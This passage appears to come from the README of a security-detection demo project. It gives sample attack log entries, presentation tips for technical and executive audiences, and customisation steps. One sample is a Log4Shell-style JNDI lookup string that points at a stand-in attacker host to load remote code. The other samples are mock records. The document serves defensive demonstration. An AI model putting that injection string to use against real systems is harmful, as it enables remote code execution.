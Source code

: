 ### Zero-Day (Log4Shell Style)
```json
{"message": "${jndi:ldap://evil.com:1389/Exploit}", "level": "INFO"}
```

### Business Logic (Race Condition)
```json
{"product_id": 12345, "quantity": 1000000, "price_override": 0.01}
```

### Ransomware (C2 Communication)
```json
{"host_id": "VICTIM-001", "encryption_status": "COMPLETE", "btc_address": "1ABC..."}
```

## 🎯 Presentation Tips

### For Technical Audiences
1. Focus on **attack sophistication** and **evasion techniques**
2. Highlight **zero-day detection capabilities**
3. Demonstrate **sub-second response times**
4. Show **comprehensive threat coverage**

### For Executive Audiences  
1. Emphasize **financial impact prevention**
2. Present **ROI calculations** and **cost justification**
3. Focus on **regulatory compliance** benefits
4. Highlight **business continuity** protection

### For Industry-Specific Demos
1. Use **relevant threat scenarios** for the target industry
2. Reference **actual breach cases** and their costs
3. Discuss **regulatory requirements** specific to the industry
4. Show **competitive advantages** of advanced AI protection

## 🔧 Customization Options

### Modify Attack Patterns
Edit `vicious_attack_patterns.json` to:
- Add new attack signatures
- Update threat intelligence data
- Customize financial impact calculations
- Add industry-specific threats

### Adjust Visualization
Modify `enterprise_attack_dashboard.html` to:
- Change color schemes and branding
- Add custom metrics and KPIs
- Integrate with existing security tools
- Customize real-time display options
